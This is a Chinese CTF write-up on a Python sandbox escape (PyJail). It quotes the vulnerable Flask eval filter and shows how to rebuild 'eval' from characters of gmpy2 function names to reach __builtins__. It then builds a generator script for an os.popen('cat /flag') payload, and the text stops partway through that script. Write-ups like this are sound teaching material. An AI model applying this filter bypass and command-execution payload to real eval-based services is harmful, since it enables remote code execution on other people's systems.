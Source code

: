 这题好像是关于沙箱逃逸，我们先看一篇文章：[[PyJail] python沙箱逃逸探究](https://zhuanlan.zhihu.com/p/578966149)

我们仔细分析这一段代码：

```python
	pattern=re.compile(r'\w+')	
    code=request.form.get('code')
        for item in pattern.findall(code):#从code里把单词拿出来
            if not re.match(r'\d+$',item):#如果不是数字
                if item not in dir(gmpy2):#逐个和gmpy2库里的函数名比较
                   return jsonify({"result":1,"msg":f"你想干什么？{item}不是有效的函数"})
        try:
            result=eval(code)
            return jsonify({"result":0,"msg":f"计算成功，答案是{result}"})
```

这一段代码判断，首先把所有的字母、数字、下划线_ 拿出来(findall)：单词，

如果单词不在gmpy2库中，则执行不了eval()，所以我们必须使用gmpy2库中的函数名来构造想要的代码。

`dir()`函数可以返回参数的属性以及函数列表。

例如，我们返回`gmpy2` 的列表：dir(gmpy2)

![image-20230307114741408](https://s2.loli.net/2023/03/07/mtdIae4KDzH6jCA.png)

根据分析，特殊字符可以随便使用，

我们需要使用图片中的函数名来构造payload。

观察可知，里面有：`gmpy2`  、`__builtins__` 等

> **`__builtins__`**：包含当前运行环境中默认的所有函数与类。如上面所介绍的所有默认函数，如`str`、`chr`、`ord`、`dict`、`dir`等。

我们使用 `gmpy2.__builtins__` 查看其中存在的属性、函数，返回的是字典：

![image-20230307115516500](https://s2.loli.net/2023/03/07/b5GxBKqA2JORX9i.png)

其中包含 eval() 函数，我们需要通过`gmpy2`中有的函数来构造 eval

经过观察，gmpy2中存在：`invert`、`fac`、`lcm` 等函数，我们可以通过对字符串中字符取值，拼接为eval

```python
gmpy2.__builtins__['invert'[3]+'invert'[2]+'fac'[1]+'lcm'[0]](
```

然后我们需要编写脚本，通过gmpy2函数，构造出eval()函数中的代码：

```python
__import__('os').popen('cat /flag').read()
```

这一句的意思是，导入os模块，使用`os.popen()` 去执行命令，然后读取出来

我们自己写个脚本进行构造：

```python
import gmpy2
s = "__import__('os').popen('cat /flag').read()"

payload = "gmpy2.__builtins__['invert'[3]+'invert'[2]+'fac'[1]+'lcm'[0]]("

for i in s: # 遍历想执行的代码
    if i in " '()/.":  	# 如果是这些字符，就直接相加（注意结尾的加号+） 
        payload += f"\"{i}\"+"
    else: 	# 如果是字母，我们需要使用gmpy2函数进行构造
        temp_str = ""
        temp_index = -1
        for j in dir(gmpy2): # 遍历gmpy2中的函数
            if i in j:		# 如果函数中存在该字母
                temp_index = j.find(i)  # 找到该字母下标
                temp_str = j
        payload += f"\"{temp_str}\"[{temp_index}]+"  
```